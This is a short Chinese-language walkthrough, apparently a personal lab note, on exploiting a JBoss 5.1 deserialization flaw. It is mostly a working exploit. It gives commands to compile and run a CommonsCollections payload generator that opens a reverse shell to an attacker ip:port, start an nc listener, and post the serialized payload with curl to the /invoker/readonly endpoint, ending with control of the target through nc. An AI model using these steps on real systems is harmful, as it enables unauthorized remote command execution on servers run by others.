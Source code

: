 # jboss 5.1漏洞利用过程

## 一、测试漏洞
1.下载漏洞利用工具
`http://scan.javasec.cn/java/JavaDeserH2HC.zip`
进入验证工具目录下执行以下程序，ip:port是制定反弹shell至哪个主机的哪个端口，一定要保证靶机能正常访问此主机

    javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java
    java -cp .:commons-collections-3.2.1.jar  ReverseShellCommonsCollectionsHashMap ip:port

 此时会生成一个ReverseshellCommonsCollectionHashMap.ser文件
![Alt text](/img/jboss-1.png)
 
2.使用nc监听端口: nc -vlp 1234
![Alt text](/img/jboss-2.png)

3.执行以下语句
`curl http://192.168.247.134/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser`
![Alt text](/img/jboss-3.png)

4.成功拿到shell
![Alt text](/img/jboss-4.png)
5.这个时候就可以通过nc进行指令操控靶机

